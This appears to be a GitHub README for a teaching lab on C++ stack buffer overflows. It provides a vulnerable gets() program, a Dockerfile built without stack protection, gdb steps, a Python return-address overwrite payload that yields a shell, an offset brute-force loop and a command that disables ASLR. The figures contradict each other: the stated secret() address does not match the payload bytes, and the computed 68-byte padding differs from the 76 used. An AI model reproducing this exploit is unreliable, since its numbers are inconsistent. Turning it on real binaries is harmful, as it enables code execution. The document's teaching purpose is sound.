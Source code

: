 # Objective
# 🛡️ Teaching Buffer Overflow in C++

# 👨‍🏫 **Objective**: Understand how unsafe input functions in C/C++ can be exploited to alter program flow.

# Install 
## Clone the Repository 
```
git clone git@github.com:gtoscano/buffer-overflow.git
cd buffer-overflow
docker build -t buffer-overflow .
docker run -it buffer-overflow
```



---

## 🧠 What You’re About to Do

We'll exploit a simple C++ program that:

1. Uses `gets()` (unsafe)
2. Has a 64-byte buffer on the stack
3. Fails to check input size

👾 **Goal**: Redirect execution to a hidden `secret()` function.

---

## Diagram of Stack and Overflow
```
EBP = Extended Base Pointer
FP = Frame Pointer
RA = Return Address

                  +---------------------------+
                  |  higher stack frames     |  (previous function contexts)
                  +---------------------------+
                  |  saved EBP (old FP)      | <-- saved frame pointer for vulnerable()
                  +---------------------------+
(legit RA) ---->  |  return address for      | <-- normally points back to main()
                  |  vulnerable()            |
                  +---------------------------+
                  |                         |  
  buffer start -->|  buffer[0]              |  
                  |  buffer[1]              |  
                  |  buffer[2]              |  
                  |       ...               |  64 bytes allocated
                  |  buffer[63]             |  
  buffer end ---->|                         |
                  +---------------------------+
                  |  (possible padding)      | <-- not always present, but can exist
                  +---------------------------+
(overflow data) ->|  overwritten EBP         | <-- overwritten by out-of-bounds write
                  +---------------------------+
(overflow data) ->|  new return address      | <-- attacker-supplied address of secret()
                  +---------------------------+
                  |  rest of the stack...    |
                  +---------------------------+
```

## 🧪 The Vulnerable Code

```cpp
#include <iostream>
#include <cstdio>
#include <cstdlib>

void secret() {
    std::cout << "Access granted to secret!\n";
    system("/bin/sh");
}

void vulnerable() {
    char buffer[64];
    std::cout << "Enter text: ";
    gets(buffer);  // 💣 buffer overflow possible here!
}

int main() {
    vulnerable();
    return 0;
}
```

---

## 🐳 Set Up the Environment

```dockerfile
FROM ubuntu:12.04

RUN sed -i 's|archive.ubuntu.com|old-releases.ubuntu.com|g' /etc/apt/sources.list && \
    apt-get update && apt-get install -y build-essential gdb && apt-get clean

COPY vuln.cpp /vuln.cpp
RUN g++ -fno-stack-protector -z execstack vuln.cpp -o vuln
CMD ["/bin/bash"]
```

---

## 🔍 Step 1: Find `secret()` Address

Run:

```bash
gdb ./vuln
```

Then in `gdb`:

```gdb
info functions secret
```

Example output:

```
0x080484b6  secret()
```

---

## 🧮 Step 2: Calculate Overflow

Stack layout in `vulnerable()`:

```
[ buffer (64 bytes) ]
[ saved EBP (4 bytes) ]
[ return address (4 bytes) ] 👈 we overwrite this
```

➡️ Total: **68 bytes padding** + 4 bytes address

---

## 💥 Step 3: Craft the Payload

Assuming `secret()` is at `0x080484b6`:

```bash
python -c 'print "A"*76 + "\x74\x86\x04\x08"' > payload
```
or:

```bash
for i in $(seq 60 78); do
  echo "Trying offset: $i"
  python -c "print 'A'*$i + '\x74\x86\x04\x08'" > payload
  ./vuln < payload && echo "💥 Success at offset $i!"
done
```


Run the attack:

```bash
./vuln < payload
```

💡 If successful: you get a shell!

---

## 🚧 Disable ASLR (for predictability)

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

This ensures addresses like `0x080484b6` are stable.

---

## 🧠 Learning Takeaways

✅ Stack layout  
✅ Unsafe input = security risk  
✅ Return address hijack  
✅ Importance of memory-safe coding

---

## 🙏 Use Responsibly

- **For educational purposes only**
- Never exploit systems without permission
- Use modern practices: `fgets`, stack canaries, ASLR, PIE, etc.

---

# 🎓 Thank You!

Questions?  
Let's explore secure coding together!

